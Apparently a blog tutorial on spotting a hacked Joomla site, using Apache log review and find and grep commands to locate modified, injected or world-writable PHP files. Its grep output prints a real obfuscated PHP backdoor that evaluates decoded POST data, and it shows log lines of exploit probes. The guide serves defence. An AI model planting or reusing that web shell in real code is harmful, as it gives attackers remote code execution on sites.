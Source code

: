 ```yaml
---
description: How to find hacked Joomla files. How to analize your Joomla site to tell if it has been compromised or hacked.
---
```


## Overview

Like every popular Content Management System, there is always going to
be at risk of being attacked or hacked. This article explore some
methods to try to detect the integrity of your website.

Monitor your site regularly.

## Check web server logs

Check primarily for brute force attacks and attempts to upload
files. With Apache in Ubuntu that would tipically mean to analyze
`/var/log/apache2/access.log` and `/var/log/apache2/error.log`

For example, there is someone playing around one of my Joomla websites
trying to explode Wordpress vulnerabilities:

<pre class="shell">
<samp>
<span class="shell-prompt">/var/log/apache2/$</span> <kbd>grep POST access.log</kbd>
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:03 +0000] "POST /wp-content/themes/method/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:14 +0000] "POST /wp-content/themes/modular/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:25 +0000] "POST /wp-content/themes/myriad/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:56 +0000] "POST /wp-content/themes/persuasion/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
</samp>
</pre>

## Detect modified PHP files

You can look for PHP files that were modified recently, or after some
date you are sure didn't perform anything to the source code. 

That would show new possibly uploaded scripts or modified files with
injected code in them.

### Find files modified recently

To find recently modified files: <kbd>find /path/to/dir -type f -mtime -7 -ls</kbd>.
The `-mtime` parameter detects when file's data was last modified
*n*24* hours ago, in that case we analyze the previous 7 days.

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>find . -type f -mtime -7 -ls</kbd>
</samp>
</pre>

### Find files modified after a specific date

List files in given directory modified after given date <kbd> find
/path/to/dir -newermt "yyyy-mm-dd"</kbd>.

> -newerXY reference
>               Compares the timestamp of the current file with reference.  The reference argument is normally the name  of  a  file
>               (and  one  of its timestamps is used for the comparison) but it may also be a string describing an absolute time.  X
>               and Y are placeholders for other letters, and these letters select which time belonging to how reference is used for
>               the comparison.
> 
>               a   The access time of the file reference
>               B   The birth time of the file reference
>               c   The inode status change time of reference
>               m   The modification time of the file reference
>               t   reference is interpreted directly as a time
> 
> <footer class="blockquote-footer"> <cite>Find man page</cite></footer>
{: class="blockquote"}

In this example we look for files modified with the current directory
as the base directory and modified after "2016-12-01".

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>find . -newermt "2017-01-25" -ls</kbd>
1089538    4 drwxr-xr-x   2 marcanuy www-data     4096 Jan 25 04:13 ./website/logs
</samp>
</pre>

### Finding hacked files with pattern matching

Most of the time injected code will be obfuscated, making it harder to
look for obvious patterns, but we can try some alternatives though.

This code would be tipically inserted as the first line of the PHP
file, starting with a variable, so we can look for that pattern, first
line starting with `<?php $`:

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>grep -m 1 -r '^<?php \$' .</kbd>
./website/components/com_users/views/profile/tmpl/default_params.php:<?php $fields = $this->form->getFieldset('params'); ?>
./website/administrator/cache/com_ajax3j/9411v11.php:<?php $coi=chr(97).chr(115)."\x73".chr(101)."\x72"."\x74";$zioj=chr(98).chr
(97)."\x73"."\x65"."\x36".chr(52)."\x5f"."\x64".chr(101)."c"."\x6f".chr(100).chr(101);$jd=chr(115)."\x74".chr(114)."\x5f"."r".chr(111)
."\x74"."1"."3";@$coi(@$zioj(@$jd($_POST[chr(100).chr(97)."t".chr(97)])));die(); ?>
</samp>
</pre>

First line of the output looks fine, but the second line looks a bit
more than suspicious code, we can decode it and understand what it is
doing before removing it.

## Files with wrong permissions

Check out for writable upload directories. The `find` command can be used to scan for files and folder with
permission 777.

<pre class="shell">
<span class="shell-prompt">$</span> <kbd>find . \(-type f -o -type d\) -perm 0777 -print </kbd>
</pre>

> -perm mode
>               File's  permission  bits  are  exactly  mode (octal or sym‐
>               bolic).  Since an exact match is required, if you  want  to
>               use this form for symbolic modes, you may have to specify a
>               rather complex mode string.  For example `-perm  g=w'  will
>               only  match  files  which have mode 0020 (that is, ones for
>               which group write permission is the only  permission  set).
>               It  is more likely that you will want to use the `/' or `-'
>               forms, for example `-perm -g=w',  which  matches  any  file
>               with  group write permission.  See the EXAMPLES section for
>               some illustrative examples.
> 
> <footer class="blockquote-footer"> <cite>Find man page</cite></footer>
{: class="blockquote"}


Then we can modify it a bit to scan through all the 777 files on the
server and show ones with `.php` to look for uploaded scripts:

<pre class="shell">
<span class="shell-prompt">$</span> <kbd>find . -name "*php" -type f -perm 777</kbd>
</pre>

## Conclusion

A lot of people recommends to install a clean backup after being
hacked, this approach will fail sooner or later because you need to
know what failed to prevent happening again.

This article covers some basic strategies for identifying compromised
files, attacks are constant with varying methods so it is important to
know commands and strategies to recover our sites and keep them safe.

## References

- <https://www.google.com/transparencyreport/safebrowsing/diagnostic/index.html>
- The Joomla Hacking Compendium <https://www.exploit-db.com/papers/15780/>

